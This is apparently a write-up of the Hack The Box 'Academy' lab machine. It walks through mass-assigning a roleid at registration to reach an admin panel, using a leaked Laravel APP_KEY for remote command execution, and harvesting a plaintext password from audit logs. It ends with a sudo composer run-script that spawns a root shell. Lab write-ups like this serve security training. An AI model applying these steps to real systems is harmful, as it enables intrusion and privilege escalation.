










**Academy is a new product from hack the box and this box gives a preview into it. This box however unlike the real HTB Academy has been made vulnerable** 

# ENUMERATION
## NMAP
Let's start NMAP
```
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We can see that there is port 80 open which seems most insteressting so far.

## WebPage
	
> Add the `academy-.htb` to hosts file. 

Register to academy and login:
  

I've checked the source code but there is nothing linked.

I noticed there are 2 portals available, login for users and admin.`admin.php`.

While registering there it is possible to change the role with `roleid` parameter.


This enabled login to `admin.php`, and there we can find some hints:


Let us put `dev-staging-01.academy.htb` to the hosts file and check it out:


There we can find DB credentials



And there is also a API key, but there is also vulnerability present in laravel framework for this version:

> This module exploits a vulnerability in the PHP Laravel Framework for versions 5.5.40, 5.6.x <= 5.6.29. Remote Command Execution is possible via a correctly formatted HTTP X-XSRF-TOKEN header, due to an insecure unserialize call of the decrypt method in Illuminate/Encryption/Encrypter.php. Authentication is not required, however exploitation requires knowledge of the Laravel APP_KEY. Similar vulnerabilities appear to exist within Laravel cookie tokens based on the code fix. In some cases the APP_KEY is leaked which allows for discovery and exploitation.



Running it gives us shell:



Linpeas has found quite a few passwords but only this looks promising since it is not from the dev stage...



Password won't work for mysql but it will work for `cry0l1t3` user!



Same creds will work for SSH!

# PRIVILEGE ESCALATION

Running `Linpeas.sh` again has found following credentials. This was possible as the `cry0l1t3` user belongs to adm group
```
[+] Checking for TTY (sudo/su) passwords in audit logs
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
```

And logging in as user `mrb3n` now, we can see that it can run composer with sudo rights:

```
mrb3n@academy:/var/log$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
	  env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
User mrb3n may run the following commands on academy:
	  (ALL) /usr/bin/composer
```

Reference GTFObins: https://gtfobins.github.io/gtfobins/composer/

```	
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

Running commands above grant us root access:


